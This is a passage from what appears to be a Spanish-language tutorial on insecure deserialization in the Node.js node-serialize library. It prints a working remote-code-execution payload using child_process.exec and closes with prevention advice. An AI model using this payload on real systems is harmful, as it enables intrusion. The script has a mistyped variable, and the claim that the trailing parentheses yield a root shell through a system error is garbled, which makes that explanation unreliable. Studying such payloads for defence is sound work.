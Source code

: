 ```
> nano serialize.js
```

Y dentro copiamos el siguiente código:

```js
var y = {
	rce : function( ){
	require('child_process').exec('{comando}', function(error, stdout, stderr) { console.log(stdout) });
	},
}
var serializa = require('node-serializa');
console.log("Serialized: \n" + serialize.serialize(y));
```

Para ejecutarlo:

```
> node serialize.js
```

Script de deserializacion (el whoami es el comando a ejecutar):

```js
var serialize = require('node-serialize')
var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'whoami\', function(error, stdout, stderr) { console.log(stdout) });}()"}'
serialize.unserialize(payload)
```

Sin los últimos `()` es como debería funcionar, pero se descubrio un error a nivel de sistema que hace que si los ponemos directamente nos da una shell de root.

## PREVENCIÓN

Podemos hacer unas cuantas cosas para prevenir este tipo de ataques:

```
·Utilice una biblioteca de serialización/deserialización segura: Hay varias opciones disponibles, como JSON.stringify y JSON.parse en JavaScript nativo y bibliotecas como "safe-json-parse" y "json-parse-better-errors".

·Verifique la confiabilidad de los datos que deserializa: Asegúrese de que los datos que está deserializando provienen de una fuente confiable y no han sido alterados de alguna manera.

·Realice una revisión de seguridad regular de su código: Asegúrese de revisar regularmente su código en busca de vulnerabilidades de seguridad, incluyendo vulnerabilidades de deserialización.

·Utilice un marco de seguridad: Algunos marcos de aplicaciones web, como Express.js, proporcionan medidas de seguridad incorporadas para proteger contra ataques de deserialización.

·Utilice técnicas de entrada de validación y sanitización: Asegúrese de validar y sanitizar todos los datos de entrada para evitar que los atacantes inyecten datos maliciosos en su aplicación.
```
